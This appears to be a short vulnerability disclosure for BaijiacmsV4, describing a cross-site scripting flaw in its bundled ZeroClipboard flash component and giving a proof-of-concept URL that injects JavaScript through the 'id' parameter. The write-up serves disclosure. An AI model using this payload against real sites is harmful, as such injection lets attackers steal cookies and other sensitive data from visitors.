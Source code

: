 #Baijiacms officials link

baijiacms: https://github.com/baijiacms/baijiacmsV4

#Why make this

BaijiacmsV4 does not open the issue,I can't feedback any issue,it's only possible to write up vulnerability here.

Non-standard use of the flash component, resulting in cross-site scripting attacks in the foreground，Attackers can obtain sensitive information such as cookie through vulnerability

#Poc

http://localhost/baijiacmsV4-master/assets/weengine/components/zclip/ZeroClipboard.swf?id=\"))}catch(e){alert(/test/.source);}//&width=500&height=500
